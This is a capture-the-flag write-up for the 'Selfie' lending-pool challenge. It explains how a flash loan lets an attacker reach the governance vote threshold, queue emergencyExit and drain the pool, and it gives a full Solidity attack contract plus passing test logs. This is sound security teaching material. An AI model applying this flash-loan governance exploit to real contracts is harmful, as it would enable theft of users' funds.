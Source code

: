 # Challenge - Selfie

A new lending pool has launched! It’s now offering flash loans of DVT tokens. It even includes a fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million at risk.

## Objective of CTF

Rescue all funds from the pool and deposit them into the designated recovery account.

## Vulnerability Analysis

The `SelfiePool` contract, which acts as the lending pool, provides flash loans of DVT tokens and includes an emergency function to withdraw all DVT tokens to a specified receiver address:

```solidity
function emergencyExit(address receiver) external onlyGovernance {
    uint256 amount = token.balanceOf(address(this));
    token.transfer(receiver, amount);

    emit EmergencyExit(receiver, amount);
}
```

However, only the governance contract, the `SimpleGovernance` contract, can execute this function. To trigger it, an action must first be queued using the `queueAction()` function in the `SimpleGovernance` contract:

```solidity
function queueAction(address target, uint128 value, bytes calldata data) external returns (uint256 actionId) {
    if (!_hasEnoughVotes(msg.sender)) {
        revert NotEnoughVotes(msg.sender);
    }

    if (target == address(this)) {
        revert InvalidTarget();
    }

    if (data.length > 0 && target.code.length == 0) {
        revert TargetMustHaveCode();
    }

    actionId = _actionCounter;

    _actions[actionId] = GovernanceAction({
        target: target,
        value: value,
        proposedAt: uint64(block.timestamp),
        executedAt: 0,
        data: data
    });

    unchecked {
        _actionCounter++;
    }

    emit ActionQueued(actionId, msg.sender);
}
```

Importantly, not just anyone can queue an action; the caller needs to hold at least half of the total supply of DVT tokens, as shown below:

```solidity
function _hasEnoughVotes(address who) private view returns (bool) {
    uint256 balance = _votingToken.getVotes(who);
    uint256 halfTotalSupply = _votingToken.totalSupply() / 2;
    return balance > halfTotalSupply;
}
```

After a delay of two days, the queued action can be executed by calling `executeAction()` in the SimpleGovernance contract:

```solidity
function executeAction(uint256 actionId) external payable returns (bytes memory) {
    if (!_canBeExecuted(actionId)) {
        revert CannotExecute(actionId);
    }

    GovernanceAction storage actionToExecute = _actions[actionId];
    actionToExecute.executedAt = uint64(block.timestamp);

    emit ActionExecuted(actionId, msg.sender);

    return actionToExecute.target.functionCallWithValue(actionToExecute.data, actionToExecute.value);
}
```

Do you see the vulnerability? To queue an action, you need to control half of the total supply of DVT tokens. However, the pool offers flash loans of DVT tokens, which can be exploited to temporarily meet this requirement.

### Attack steps:

1. Initiate a flash loan to borrow the maximum amount of DVT tokens and use them to queue an action that executes the `emergencyExit()` function during the loan.
2. Wait 2 days (using `vm.warp(block.timestamp + 2 days)` in test), then execute the queued action by calling the `executeAction()` function.
3. Transfer the rescued token to the `recovery` address.

## PoC test case

### Attack contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.8.25;

import {IERC3156FlashBorrower} from "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import {Ownable} from "solady/auth/Ownable.sol";
import {ISimpleGovernance} from "./ISimpleGovernance.sol";
import {DamnValuableVotes} from "../DamnValuableVotes.sol";

interface ISelfiePool {
    function maxFlashLoan(address _token) external view returns (uint256);
    function flashLoan(IERC3156FlashBorrower _receiver, address _token, uint256 _amount, bytes calldata _data)
        external
        returns (bool);
}

contract AttackSelfiePool is IERC3156FlashBorrower, Ownable {
    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");

    DamnValuableVotes private immutable token;
    address private immutable governance;
    address private immutable pool;
    address private immutable recovery;

    constructor(address _token, address _governance, address _pool, address _recovery) {
        _initializeOwner(msg.sender);

        token = DamnValuableVotes(_token);
        governance = _governance;
        pool = _pool;
        recovery = _recovery;
    }

    function attack() external onlyOwner {
        uint256 amount = ISelfiePool(pool).maxFlashLoan(address(token));
        bytes memory data = abi.encodeWithSignature("emergencyExit(address)", recovery);
        ISelfiePool(pool).flashLoan(this, address(token), amount, data);
    }

    function onFlashLoan(address _sender, address, uint256 _amount, uint256, bytes calldata data)
        external
        returns (bytes32)
    {
        require(_sender == address(this), "invalid sender");
        require(msg.sender == pool, "not from pool");

        token.delegate(address(this));
        ISimpleGovernance(governance).queueAction(pool, 0, data);
        token.approve(pool, type(uint256).max);

        return CALLBACK_SUCCESS;
    }
}
```

### Test Result

```
Ran 2 tests for test/selfie/Selfie.t.sol:SelfieChallenge
[PASS] test_assertInitialState() (gas: 23817)
[PASS] test_selfie() (gas: 875599)
Logs:
  -------------------------- Before exploit --------------------------
  token balance in the pool contract: 1500000.000000000000000000
  token balance in the recovery address: 0.000000000000000000
  -------------------------- After exploit --------------------------
  token balance in the pool contract: 0.000000000000000000
  token balance in the recovery address: 1500000.000000000000000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 7.91ms (871.38µs CPU time)

Ran 1 test suite in 257.84ms (7.91ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```
